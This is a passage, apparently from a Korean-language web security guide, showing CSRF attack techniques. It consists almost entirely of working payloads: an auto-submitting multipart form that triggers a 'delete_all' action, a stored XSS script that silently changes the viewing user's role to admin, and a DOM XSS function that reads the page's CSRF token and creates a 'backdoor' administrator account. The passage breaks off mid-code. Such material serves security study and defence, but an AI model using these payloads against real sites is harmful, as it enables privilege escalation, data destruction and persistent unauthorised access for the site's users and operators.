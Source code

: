#### 3.3.2. multipart/form-data 우회
```html
<form action="http://target.com/api/upload" method="POST" enctype="multipart/form-data">
    <input type="hidden" name="file_action" value="delete_all">
    <input type="hidden" name="confirm" value="yes">
</form>
<script>document.forms[0].submit();</script>
```

### 3.4. CSRF + XSS 연계 공격

#### 3.4.1. Stored XSS를 통한 CSRF
```html
<!-- 게시판에 저장된 XSS 코드 -->
<script>
// 사용자가 게시글을 볼 때 자동으로 CSRF 공격 실행
fetch('/api/change_role', {
    method: 'POST',
    headers: {
        'Content-Type': 'application/json',
        'X-Requested-With': 'XMLHttpRequest'
    },
    body: JSON.stringify({
        user_id: getUserId(),  // 현재 사용자 ID 획득
        new_role: 'admin'
    }),
    credentials: 'include'
});

function getUserId() {
    // DOM에서 사용자 ID 추출
    return document.querySelector('[data-user-id]').dataset.userId;
}
</script>
```

#### 3.4.2. DOM XSS를 통한 동적 CSRF
```javascript
// URL Fragment를 이용한 DOM XSS + CSRF
// URL: http://vulnerable.com/page#<script>csrf_attack()</script>

function csrf_attack() {
    // 현재 페이지의 CSRF 토큰 획득
    var token = document.querySelector('meta[name="csrf-token"]').content;
    
    // 토큰을 포함한 CSRF 공격
    var form = document.createElement('form');
    form.method = 'POST';
    form.action = '/admin/create_user';
    
    var inputs = [
        {name: 'csrf_token', value: token},
        {name: 'username', value: 'backdoor'},
        {name: 'password', value: 'secret123'},
        {name: 'role', value: 'administrator'}
    ];
    
    inputs.forEach(function(input) {
        var hiddenInput = document.createElement('input');
        hiddenInput.type = 'hidden';
        hiddenInput.name = input.name;
        hiddenInput.value = input.value;
        form.appendChild(hiddenInput);
    });
```